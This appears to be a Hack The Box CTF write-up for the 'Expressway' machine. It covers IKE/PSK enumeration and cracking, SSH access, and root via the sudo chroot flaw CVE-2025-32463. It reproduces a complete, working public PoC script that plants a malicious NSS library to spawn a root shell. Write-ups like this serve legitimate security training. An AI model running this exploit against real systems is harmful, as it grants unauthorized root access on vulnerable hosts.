 ```yaml
---
layout: post
title: HTB-Expressway
date: 2025-09-24
tags: [HTB]
category: [CTF-Writeups]
---
```


# HTB — Expressway: Quick Writeup

**IP:** `10.129.182.76`  
**Difficulty:** Easy  
**Skills:** IKE/IPSec enumeration • PSK cracking • SSH access • sudo exploit (CVE-2025-32463)

> **Summary:** Only SSH (22) was exposed, but an IKE service on UDP/500 was discovered via UDP scan. Using `ike-scan` produced a PSK candidate file and an associated email (`ike@expressway.htb`). Cracking the PSK revealed `freakingrockstarontheroad`, allowing SSH access as `ike` to capture the user flag. Root was obtained by exploiting a critical Sudo chroot vulnerability (CVE-2025-32463) using a public PoC to spawn a root shell and read `root.txt`.

---

## Table of contents
1. [Recon (nmap & UDP scan)](#recon-nmap--udp)  
2. [User: IKE discovery & PSK cracking](#user)  
3. [Root: CVE-2025-32463 Sudo chroot exploit](#root)  
4. [Flags](#flags)  

---

## Recon (nmap & UDP)

**Command used**

```bash
nmap 10.129.182.76
```

**Result**

```text
PORT   STATE SERVICE
22/tcp open  ssh
```

A UDP scan (rustscan) revealed an open UDP port:

```text
rustscan --udp -a 10.129.182.76
Open 10.129.182.76:500
```

Port 500/udp commonly hosts IKE/IPSec (VPN) — proceed to enumerate with `ike-scan`.

---

## User

### Steps
1. Run `ike-scan` to enumerate and capture PSK candidate information:

```bash
ike-scan -A --trans=5,2,1,2 --id=vpnclient -P psk.txt 10.129.182.76
```

This produces `psk.txt` containing potential pre-shared key material gathered from the IKE handshake.

2. Crack the PSK using a wordlist (example: `rockyou.txt`) with the `psk-crack` tool:

```bash
psk-crack -d /usr/share/wordlists/rockyou.txt psk.txt
```

3. Recovered PSK:
```
freakingrockstarontheroad
```


4. `ike-scan` output also revealed an email address associated with the endpoint: `ike@expressway.htb`.

5. SSH in as the discovered user:

```bash
ssh ike@10.129.182.76
# password: freakingrockstarontheroad
```

6. Retrieve the user flag:

```bash
cat /home/ike/user.txt
# dOtHisYoUrSeLf
```

---

## Root

### Discovery
Check sudo and its version:

```bash
sudo -V
```

Sudo reported version `1.9.17`. A public advisory and PoC exist for **CVE-2025-32463** — a critical Sudo chroot privilege escalation (often referred to as the "chwoot" / chroot bypass PoC). Verify whether `sudo -R` accepts a chroot replacement string:

```bash
sudo -R woot woot
```

If the error returned is:
```
sudo: woot: No such file or directory
```


then the binary accepts the `-R` (root directory) option in a way that can be abused by the published exploit — indicating the target is likely vulnerable and the public PoC should work.

### Exploit (PoC)
A working PoC was available at the referenced public repo (trimmed to essential parts here). The exploit compiles a small shared object that runs code at library init time, crafts a fake chroot layout, and invokes `sudo -R` to trigger execution as root.

```bash
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

if [ $# -eq 0 ]; then
    # If no command is provided, default to an interactive root shell.
    CMD="/bin/bash"
else
    # Otherwise, use the provided arguments as the command to execute.
    CMD="$@"
fi

# Escape the command to safely include it in a C string literal.
# This handles backslashes and double quotes.
CMD_C_ESCAPED=$(printf '%s' "$CMD" | sed -e 's/\\/\\\\/g' -e 's/"/\\"/g')

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/sh", "sh", "-c", "${CMD_C_ESCAPED}", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```

**Usage notes**

- Run the PoC on the target as the unprivileged user that has the vulnerable `sudo` behavior (in this case, `ike`).
- The PoC, when successful, spawns a root shell (or runs the provided command) due to the `setreuid(0,0)` performed by the injected constructor.
- After gaining a shell as root, read the root flag:

```bash
cat /root/root.txt
# dOtHisYoUrSeLf
```

---

## Flags

- **User:** `dOtHisYoUrSeLf`  
- **Root:** `dOtHisYoUrSeLf`

---

*This writeup documents a CTF box and is for educational purposes only. Do not perform these actions against systems you do not own or have permission to test.*
